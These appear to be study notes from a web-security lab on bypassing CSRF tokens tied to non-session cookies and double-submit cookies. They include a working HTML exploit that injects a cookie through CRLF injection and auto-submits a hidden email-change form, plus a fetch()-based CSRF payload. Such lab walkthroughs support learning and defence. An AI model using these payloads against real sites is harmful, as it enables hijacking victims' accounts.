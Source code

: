 In the code above, the attacker is constructing a request that, *if runned by the victim*, will have the victim's session cookie and the (injected) attacker's csrf token and csrf cookie (since the csrf token is tied only to the non-session cookie).

###### Lab: CSRF where token is tied to non-session cookie

- Craft some HTML that inject the attacker's csrf token (in the request body) and csrf cookie (`csrfKey` header):

```html
<html>
<body>
<form method="post" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="new_email@example.com">
<input type="hidden" name="csrf" value="<ATTACKER_CSRF>">
</form>
<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=mySearch%0d%0aSet-Cookie:csrfKey=<ATTACKER_CSRFKEY>%3b%20SameSite=None"
onerror="document.forms[0].submit()">
</body>
</html>
```

Or simply inject the CSRF token (since the request will be sent by the victim, it'll already contain the victim's session and CSRF cookie):

```html
<script>  
const attacker_csrf = '<ATTACKER_CSRF>';

fetch('https://0ae6006403edf66582ff337d0088009b.web-security-academy.net/my-account/change-email', {  
  method: 'POST',  
  credentials: 'include',  
  mode: 'no-cors',  
  body: `csrf=${attacker_csrf}&email=aaa@example.com`,  
});  
</script>
```

#### CSRF token is simply duplicated in a cookie

Some applications duplicate each token within a cookie and a request parameter. When the request is validated, the application simply verifies that the token submitted in the request parameter matches the value submitted in the cookie (*double submit* defense against CSRF):

```http
POST /email/change HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 68 
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa 

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com`
```

